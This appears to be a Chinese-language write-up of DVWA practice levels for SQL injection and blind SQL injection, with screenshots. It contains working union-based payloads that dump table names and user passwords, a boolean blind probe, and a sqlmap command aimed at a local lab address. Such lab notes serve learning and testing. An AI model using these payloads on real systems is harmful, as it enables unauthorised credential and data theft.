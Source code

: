 
## SQL Injection
### Medium
这题在前端限制了我们的输入，但是在bp中可以进行输入
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250320204701.png)


1'和1"都报错，判断是无闭合
我们可以直接进行联合注入
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250320211303.png)
```sql
1 union select table_name,table_schema from information_schema.tables where table_schema= database()
```
注意select 之后拼接两个字段
跑了超多信息
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250320211754.png)

---
### High


![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250320212311.png)
这关会重定向另一个界面
```sql
1' union select user,password from users#
```
手动爆
```sql
1' union select user,password from users#
```
sqlmap
```bash
sqlmap -r request.txt  --current-db --batch --second-url="http://192.168.254.128/DVWA/vulnerabilities/sqli/"
```
关键参数--second-url在传入参数后会在指定页面查看回显
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250320213602.png)


---
## SQL Injection (Blind)
### Low
^use-sqlmap
先测试正常回显,输入1
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315111850.png)
然后输入-1
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315112001.png)
这里的逻辑
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315112027.png)
返回值不为0(不为false)时才会回显exists
那么很好办了，常规的布尔盲注
测试闭合,1'显示miss，1“显示exists，意味着闭合为'
用length(database())试数据库大小，到4时为正确 ^d5e614
```
1' and length(database())=4 #
```
然后使用sqlmap，注意cookie是这个
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315120605.png)